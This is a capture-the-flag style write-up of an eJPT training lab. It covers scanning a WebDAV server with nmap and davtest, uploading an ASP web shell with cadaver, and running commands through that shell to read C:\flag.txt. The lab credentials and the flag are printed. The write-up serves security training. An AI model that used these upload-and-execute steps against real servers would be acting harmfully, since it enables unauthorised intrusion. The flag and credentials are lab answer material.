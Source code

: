 # Vulnerability Assessment - WebDAV Exploitation Walkthrough

This document outlines a step-by-step walkthrough for exploiting a vulnerable WebDAV service to retrieve a flag during the **eJPT Vulnerability Assessment** lab.

> **Lab URL:**
> [https://my.ine.com/CyberSecurity/courses/bf9be146-3a69-4b0e-bade-477da0002943/assessment-methodologies-vulnerability-assessment/lab/567b1f4c-482b-30b0-9353-f9ebf8a78688](https://my.ine.com/CyberSecurity/courses/bf9be146-3a69-4b0e-bade-477da0002943/assessment-methodologies-vulnerability-assessment/lab/567b1f4c-482b-30b0-9353-f9ebf8a78688)

---

## 📁 Challenge Details

* **Category:** Vulnerability Assessment
* **Target:** `demo.ine.local`
* **Goal:** Exploit WebDAV to retrieve the final flag

---

## 🔎 Step 1: Initial Port Scan

We start with a basic port scan using Nmap:

```bash
nmap demo.ine.local
```

![Step 1](./Screenshots/1.png)

Identified services:

* HTTP on port 80
* SMB on ports 139 and 445
* MySQL on 3306
* RDP on 3389

---

## 🔍 Step 2: Web Enumeration with Nmap Scripts

We enumerate the HTTP service with the `http-enum` script:

```bash
nmap --script http-enum -sV -p 80 demo.ine.local
```

![Step 2](./2.png)

Revealed the presence of `/webdav/` directory, which is potentially vulnerable.

---

## ⚙️ Step 3: Check WebDAV with `davtest`

First, test if the DAV connection is allowed:

```bash
davtest --url http://demo.ine.local/webdav
```

![Step 3](./3.png)

It responded as **open but unauthorized**.

---

## 🔐 Step 4: Authenticated WebDAV Test

Now try authenticated testing using provided credentials:

```bash
davtest --auth bob:password_123321 --url http://demo.ine.local/webdav
```

![Step 4](./4.png)

This succeeded in creating a directory and uploading various file types. The server allowed execution of `.txt`, `.html`, and `.asp`.

---

## 📊 Step 5: Review Summary Output

We review which files executed successfully:

![Step 5](./5.png)

`.txt`, `.html`, and `.asp` file types were confirmed executable.

---

## 🔧 Step 6: Upload Web Shell with Cadaver

Now we use `cadaver` to interactively upload a reverse shell:

```bash
cadaver http://demo.ine.local/webdav
```

![Step 6](./6.png)

Uploaded: `webshell.asp`

---

## 🔎 Step 7: Authenticate in Browser

Visit the WebDAV directory in Firefox:

![Step 7](./7.png)

Login with username: `bob`, password: `password_123321`

---

## 🔢 Step 8: Command Execution via Web Shell

We access the shell and execute:

```bash
http://demo.ine.local/webdav/webshell.asp?cmd=whoami
```

![Step 8](./8.png)

Successfully ran remote commands as `iis apppool\\defaultapppool`

---

## 📚 Step 9: Locate the Flag

Now we browse the system to locate the flag file:

```bash
cmd=dir C:\
```

![Step 9](./11.png)

Found file: `flag.txt`

Retrieve the flag with:

```bash
cmd=type C:\flag.txt
```

![Step 10](./12.png)

**FLAG:** `9cc175b9c0f1b6a831c399e269772661`

---

## 🕊️ Summary

This challenge involved:

1. Scanning for open services
2. Discovering and verifying WebDAV access
3. Exploiting file upload and execution via DAV
4. Uploading and executing a web shell
5. Reading the flag from the system drive

---

**Disclaimer:** This test was conducted in a controlled lab environment. Never use these techniques on systems you do not own or have explicit permission to test.

---

**🔗 [Back to eJPT CTF Challenges Repo](https://github.com/sara5521/eJPT-CTF-Challenges)**
